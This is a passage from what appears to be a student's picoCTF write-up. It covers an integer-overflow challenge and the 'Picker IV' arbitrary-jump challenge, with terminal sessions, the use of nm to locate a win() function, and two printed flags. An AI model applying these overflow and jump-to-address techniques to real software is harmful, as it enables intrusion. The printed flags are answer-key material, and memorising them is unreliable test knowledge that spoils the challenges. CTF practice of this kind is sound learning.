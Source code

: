 ```bash
You entered -1294967296 and -1294967296
You have an integer overflow
^F^C
pratham@:~$ nc saturn.picoctf.net 57945
n1 > n1 + n2 OR n2 > n1 + n2
What two positive numbers can make this possible:
-3000000000
-3000000000
You entered 1294967296 and 1294967296
You have an integer overflow
YOUR FLAG IS: picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_ccd078bd}
```

## 3. Picker IV 

### **Flag-**        
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}

### **Thought Process-**             
> After seeing the source code I thought that I had to just overflow by entering a out of bound number and it will print the flag but it was not working then I went through the hint then I realised that I will have to find the location of `win()` so I did it using command `nm -C picker-IV | grep win` on the binary executable file.

### **Output-**              
```bash
pratham:~$ nc saturn.picoctf.net 52015
Enter the address in hex to jump to, excluding '0x': 5000000000
You input 0x0
Segfault triggered! Exiting.
^C
pratham:~$ nc saturn.picoctf.net 52015
Enter the address in hex to jump to, excluding '0x': 0026F62
You input 0x26f62
Segfault triggered! Exiting.
^C
pratham:~$ nc saturn.picoctf.net 52015
Enter the address in hex to jump to, excluding '0x': 1
You input 0x1
Segfault triggered! Exiting.
^C
pratham:~$ nc saturn.picoctf.net 52015
Enter the address in hex to jump to, excluding '0x': 066
You input 0x66
Segfault triggered! Exiting.
^C
pratham:~$ ls
_flag.png.extracted                   flag.png                  link       picker-IV:Zone.Identifier
_freakada_3301_message.png.extracted  flag.png:Zone.Identifier  nite       snap
cryptonite_taskphase_pratham          handout                   picker-IV
pratham@LAPTOP-SDGL4LEJ:~$ exiftool picker-IV
ExifTool Version Number         : 12.40
File Name                       : picker-IV
Directory                       : .
File Size                       : 17 KiB
File Modification Date/Time     : 2025:01:04 11:31:21+05:30
File Access Date/Time           : 2025:01:04 11:34:47+05:30
File Inode Change Date/Time     : 2025:01:04 11:34:47+05:30
File Permissions                : -rw-r--r--
File Type                       : ELF executable
File Type Extension             :
```